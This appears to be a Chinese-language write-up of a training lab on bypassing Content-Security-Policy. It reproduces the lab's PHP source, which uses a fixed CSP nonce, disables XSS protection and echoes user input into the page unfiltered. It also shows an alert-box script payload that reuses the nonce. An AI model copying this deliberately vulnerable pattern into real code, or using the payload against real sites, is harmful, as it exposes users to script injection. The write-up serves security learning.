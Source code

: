 ### 源代码

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';
```



### 代码分析

源码中nonce参数无任何过滤，注入时直接令 nonce 为设定好的值即可。



### 漏洞利用

源码里注释居然就有一个，试一下，成功：

![image-20220828225356899](Lab10_CSP Bypass.assets/image-20220828225356899.png)



试一下改改内容，成功

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" > alert('TEST')</script>
```

![image-20220828225525593](Lab10_CSP Bypass.assets/image-20220828225525593.png)
